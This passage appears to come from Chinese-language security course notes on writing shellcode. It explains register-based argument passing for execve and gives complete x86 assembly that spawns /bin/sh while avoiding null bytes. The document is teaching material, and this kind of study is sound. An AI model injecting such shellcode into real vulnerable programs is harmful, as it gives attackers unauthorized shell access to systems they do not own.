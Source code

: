 但是，这个可执行文件的内容太大了（可以看到有 7400B），且包含了很多冗余信息，更重要的是，里面包含了 `\0`！所以我们不能采用这种方法，而是根据 C 代码直接使用汇编语言来编写。根据上面的 C 代码，最重要的就是 execve 这个函数，对于一般的函数，我们只需要将参数推到栈中即可，但是 execve 函数是一个系统调用函数，它的参数需要放在寄存器中来传递，在 x86 架构中，第一个参数的寄存器为 `ebx`，第二个参数的寄存器为 `ecx`，第三个参数的寄存器为 `edx`。

!!! question "如何获得地址？"

	我们可以通过栈指针（Stack Pointer）来处理，对于 `ebx` 来说，它需要指向字符串 “/bin/sh\0”，因此我们需要将这个字符串放在栈上，此时栈指针所指向的位置即为字符串的地址，将其赋值给 `ebx`；对于 `ecx` 来说，它指向的是一个数组，第一个元素是字符串，第二个元素为 0，我们可以直接将 `ebx` 赋值给第一个元素，此时栈指针所指向的位置就可以直接赋值给 `ecx`，最后 `edx` 直接赋值为 0 即可。
	
	![](../../../../../assets/Pasted%20image%2020250706234012.png)

有了上面的逻辑，我们就可以写出汇编代码：

```asm
xorl %eax, %eax ; 清零 eax 寄存器
pushl %eax ; 将 0 推到栈中，作为字符串结尾
pushl $0x68732f2f ; 推入字符串 "//sh"（等价于 "/sh"）
pushl $0x6e69622f ; 推入字符串 "/bin"
movl %esp, %ebx ; 将栈指针的值赋值给 ebx
pushl %eax ; 将 0 推到栈中，作为数组的第二个元素
pushl %ebx ; 将 ebx 的值推到栈中，作为数组的第一个元素
movl %esp, %ecx ; 将栈指针的值赋值给 ecx
movl %eax, %edx ; 将 0 赋值给 edx
movb $0x0b, %al ; 将系统调用号 11（execve）赋值给 al 寄存器（al 寄存器是 eax 寄存器的低 8 位，当 eax 为系统调用号时才能调用对应函数）
int 0x80 ; 发起系统调用
```
